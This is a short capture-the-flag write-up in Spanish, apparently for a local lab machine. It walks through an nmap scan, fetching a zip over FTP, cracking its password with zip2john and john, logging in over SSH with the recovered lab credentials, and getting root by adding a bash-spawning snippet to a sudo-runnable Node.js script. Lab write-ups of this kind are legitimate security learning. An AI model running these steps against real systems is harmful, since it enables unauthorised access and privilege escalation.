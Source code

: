 Fecha: 03/08/2024
Empiezo escaneando la máquina: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](imágenes/Pasted%20image%2020240903180050.png)
Descargo el comprimido que se ubica en ftp:
```bash
wget ftp://172.17.0.2/secretitopicaron.zip
```

Necesita una contraseña, así que uso john de ripper para buscarla:
```bash
zip2john secretitopicaron.zip > ziphash.txt
john ziphash.zip                  
```
![](imágenes/Pasted%20image%2020240903182308.png)
Conseguimos de esta manera un usuario (`mario`) y contraseña (`laKontraseñAmasmalotaHdelbarrioH`) para ssh. 
![](imágenes/Pasted%20image%2020240903182512.png)

Lo primero que miro al entrar es qué podemos ejecutar con sudo, encontrando que podemos ejecutar un script de js, que podemos editar nosotros mismos:
![](imágenes/Pasted%20image%2020240903182747.png)

Insertaré lo siguiente en el script y ya podré hacerme root:
```js
const { spawn } = require('child_process'); 

const shell = spawn('bash', { stdio: 'inherit', shell: true });
```

![](imágenes/Pasted%20image%2020240903183243.png)
